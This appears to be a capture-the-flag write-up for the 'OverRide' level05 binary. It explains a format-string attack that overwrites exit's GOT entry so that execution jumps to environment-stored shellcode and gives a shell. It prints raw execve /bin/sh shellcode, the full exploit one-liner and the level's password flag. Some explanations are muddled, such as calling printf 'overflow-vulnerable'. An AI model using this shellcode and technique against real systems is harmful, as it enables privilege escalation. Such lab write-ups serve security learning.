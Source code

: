 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :

- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  

### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
level05@OverRide:~$ objdump -R level05 

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main

```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

Our nopesled spans from 0xffffddae to 0xffffdfae, so we target the middle 0xffffdeae.

### step5: exploit printf overflow vulnerability

- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- a value is 61
- We then find that printf argument position is at 10th position

- The shellcode address(0xffffdeae) in decimal is 4294958766 

- Our number of bytes to be printed(4294958766) is too big to be printed in a single destintation 
=> we need to split the bytes in two addresses :

exit addresss : \xe0\x97\x04\x08
\xe0\x97\x04\x08 + 2 = 0x080497e0 + 2 = \xe2\x97\x04\x08

we split our shellcode address in the two adresses :
0xffffdeae => 0xffff + 0xdeae

decimal values :
0xffff => 65535
0xdeae => 57006 

first value is : 57006 - 8 = 56998

second value is : 65535 - 56998 - 8 = 8529

- The exploit string will be formatted like that : 
`<destination addr> + <destination addr + 2> + %<value in decimal2 - 2 two addresses length (8)>d + %10$n + %<value in decimal1 - value in decimal2 - 2 two addresses length (8)>d + %11$n` :
`"\xe2\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn"`

- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998d" + "%10$hn" + "%8529d" + "%11$hn")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```


And we can get the flag !
```
cat /home/users/level06/.pass
```
=>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
